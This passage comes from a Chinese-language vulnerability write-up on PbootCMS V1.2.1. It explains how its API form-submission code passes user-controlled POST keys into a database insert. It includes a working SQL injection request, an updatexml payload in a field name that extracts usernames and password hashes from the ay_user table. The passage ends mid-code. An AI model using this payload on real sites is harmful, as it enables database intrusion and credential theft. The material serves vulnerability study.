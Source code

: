 可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部 POST 内容，只匹配数据库的字段，相同才会拼接到 $_data数组

```
然后就会带入 $this->model->addMessage(data) 执行语句 
```

文件：PbootCMS-V1.2.1\apps\api\model\CmsModel.php
函数：addMessage(

```
// 新增留言
    public function addMessage($table, $data)
    {
        return parent::table('ay_message')->autoTime()->insert($data);
    } 
```

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key 带入数据库查询引发注入

## 0x10.3 接口注入三

### 0x10.3.1 漏洞利用

```
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addform?fcode=1
post:
    contacts[content`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
    mobile = 111
    content = 123 
```

![image](../img/3931016516826deb773af58425e7749f.png)

0x10.3.2 漏洞讲解

```
// 表单提交  注入
    public function addform()
    {
        if ($_POST) {

```
 if (! $fcode = get('fcode', 'var')) {
            json(0, '传递的表单编码fcode有误！');
        }

